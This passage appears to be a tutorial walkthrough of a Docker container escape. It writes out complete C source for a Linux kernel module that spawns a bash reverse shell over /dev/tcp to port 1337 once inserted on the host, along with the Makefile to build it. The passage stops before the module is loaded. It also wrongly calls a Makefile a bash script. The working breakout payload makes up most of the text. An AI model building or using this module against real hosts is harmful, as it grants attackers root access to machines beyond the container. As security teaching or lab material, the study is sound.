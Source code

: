 Fist we need to check the ip address of the Docker container:
```
root@3a8315527c66:/# hostname -I | awk '{print $1}'
172.17.0.2

```
We can see that the IP address of the docker container is 172.17.0.2. 
For this attack you need to understand that the host machine creates an interface that acts as a gateway for the docker network. 
The IP address between de docker host and the network which is called the gateway is mostly set on 172.17.0.1

So we are going to:
* Create our own kernel module with a reverse shell 
* Insert it to the host machine. 
* Let the host machine connect back to our docker container and granting us access to the host machine. 

Let's get started! 

Create the kernel module. I got the script from [here](https://blog.nody.cc/posts/container-breakouts-part2/)
```bash 

cat << EOF > reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/1337 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
EOF

```
To be able to compile the kernel module, we need to create a Makefile:
A Makefile is a bash script that is used to compile code, in our case the reverse-shell.c script. 
```
root@3a8315527c66:/home/test# cat Makefile

obj-m +=reverse-shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
